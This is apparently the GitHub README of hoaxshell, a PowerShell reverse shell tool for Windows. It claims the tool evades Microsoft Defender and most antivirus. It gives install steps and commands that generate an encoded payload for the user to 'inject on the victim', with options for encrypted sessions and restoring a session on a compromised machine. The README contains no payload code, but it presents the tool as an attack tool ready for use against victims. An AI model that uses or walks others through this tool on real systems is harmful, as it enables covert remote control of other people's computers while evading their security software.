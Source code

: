 # hoaxshell

[![Python 3.x](https://img.shields.io/badge/python-3.x-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/powershell-%E2%89%A5%20v3.0-blue">
[![License](https://img.shields.io/badge/license-MIT-red.svg)](https://github.com/t3l3machus/hoaxshell/blob/main/LICENSE)
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">
## Purpose

hoaxshell is a non-traditional windows reverse shell (powershell), currently undetected by Microsoft Defender and most other AV solutions, as it is solely based on http/https traffic. The tool is easy to use, it produces it's own powershell base64 encoded or raw payload, it supports session restoration and encryption (ssl).  
  
**Disclaimer**: The project is quite fresh and has not been widely tested.  
  
### Video Presentation  
https://www.youtube.com/

## Screenshots
![usage_example_png](https://raw.github.com/t3l3machus/hoaxshell/master/Screenshots/hoaxshell-1.png)
  
Find more screenshots [here](Screenshots/).

## Installation
```
git clone https://github.com/t3l3machus/hoaxshell
cd ./hoaxshell
sudo pip3 install -r requirements.txt
chmod +x hoaxshell.py
```

## Usage
#### Basic (shell session over http)
```
sudo python3 hoaxshell.py -s <your_ip>
```  
hoaxshell will generate the powershell payload automatically base64 encoded for you to copy and inject on the victim. If you need the payload raw, execute the "rawpayload" prompt command. After the payload has been executed on the victim, you'll be able to run powershell commands against it.

#### Encrypted shell session (https):
```
# Generate self-signed certificate:
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365

# Pass the cert.pem and key.pem as arguments:
sudo python3 hoaxshell.py -s <your_ip> -c cert.pem -k key.pem

```  

#### Restore session mode
In case you close your terminal accidentally, have a power outage or something, you can start hoaxshell in restore mode, it will attempt to re-establish a session, given that the payload is still running on the victim machine.
```
sudo python3 hoaxshell.py -s <your_ip> -g
```  



